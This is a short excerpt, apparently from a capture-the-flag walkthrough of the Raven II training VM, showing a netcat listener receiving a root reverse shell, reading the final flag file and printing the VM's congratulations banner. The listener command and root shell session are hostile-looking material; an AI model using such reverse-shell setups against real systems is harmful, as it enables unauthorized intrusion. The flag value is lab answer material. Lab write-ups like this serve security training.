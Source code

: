 # nc -lnvp 4444
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/flag4.txt
  ___                   ___ ___ 
 | _ \__ ___ _____ _ _ |_ _|_ _|
 |   / _` \ V / -_) ' \ | | | | 
 |_|_\__,_|\_/\___|_||_|___|___|
                           
flag4{df2bc5e951d91581467bb9a2a8ff4425}

CONGRATULATIONS on successfully rooting RavenII

I hope you enjoyed this second interation of the Raven VM




https://hackso.me/raven-2-walkthrough/
